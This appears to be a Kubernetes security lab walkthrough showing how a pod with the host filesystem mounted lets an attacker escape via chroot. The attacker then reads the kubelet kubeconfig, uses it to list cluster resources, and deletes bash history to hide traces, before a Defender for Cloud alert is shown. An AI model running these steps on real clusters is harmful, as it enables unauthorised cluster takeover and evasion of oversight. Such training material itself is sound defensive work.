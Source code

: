 The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. 

The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

## Pod to use in this lab
system-monitor
## Misconfiguration: 
Sensitive Mount, the full host system / volume is mounted in the pod, in /host-system

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

Escape to the node, gainining access to the host system privileges using chroot. We also launch bash from this command

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

We could also start SSH server to allow remote access

And finally, remove your traces by deleting bash history

```
rm -rf ~/.bash_history
```


Very soon you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)


